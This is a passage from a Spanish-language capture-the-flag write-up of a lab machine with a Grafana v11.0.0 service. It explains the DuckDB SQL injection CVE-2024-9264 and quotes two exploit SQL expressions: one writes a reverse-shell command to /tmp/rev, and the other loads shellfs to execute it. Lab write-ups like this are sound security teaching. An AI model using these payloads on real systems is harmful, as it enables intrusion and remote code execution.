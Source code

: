 Cuando visitemos `grafana.planning.htb`, el servidor automáticamente nos redirige a `/login`

![image-center](/assets/images/posts/planning-grafana.png)
{: .align-center}

Iniciaremos sesión con las credenciales que nos proporcionaron al comienzo de la máquina


## Grafana DuckDB SQL Injection (CVE-2024-9264)

La versión de Grafana que se utiliza en este servicio corresponde a la `v11.0.0`. Realizando una pequeña investigación, encontraremos que esta versión contiene un CVE relacionado con SQL Injection, podemos obtener una prueba de concepto (PoC) en el siguiente [repositorio](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit).

En este exploit se realizan consultas SQL maliciosas que son utilizadas para almacenar un recurso `rev`, que más tarde ejecuta para enviarnos una reverse shell

~~~ python
# Guarda una reverse shell en /tmp/rev
"expression": f"SELECT 1;COPY (SELECT 'sh -i >& {reverse_shell_command}') TO '/tmp/rev';"

# Ejecuta el recurso /tmp/rev
"expression":"SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('bash /tmp/rev |');"
~~~
